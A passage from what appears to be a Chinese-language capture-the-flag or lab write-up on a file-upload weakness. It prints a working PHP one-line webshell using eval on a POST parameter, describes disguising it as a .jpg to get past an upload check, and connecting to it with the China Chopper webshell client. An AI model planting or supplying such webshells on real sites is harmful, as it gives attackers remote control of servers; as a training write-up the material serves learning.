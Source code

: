 - 先创造一个一句话木马文件：

  创建文件one.txt输入下面的一句话木马：

  ```php
  <?php
  @eval($_POST['sbb']);
  ?>
  ```

  sbb是后面用菜刀连接网站的时候用的口令，可以随便设置。

  然后修改one.txt的后缀名为.jpg后缀。

- 上传创造的one.jpg文件：

  ![image-20210204220718074](images/image-20210204220718074.png)

  

- 使用中国菜刀连接：

  <img src="images/image-20210204232150439.png" alt="image-20210204232150439" style="zoom:67%;" />

  如上图所示，GB2312那个框框不能设置为UTF-8，因为我看别人的writeup的这里就是设成UTF-8，然后我设置为这个之后会连接不上，就让他是默认的设置就好了。连接上之后，如下图所示：

  ![image-20210204220134822](images/image-20210204220134822.png)
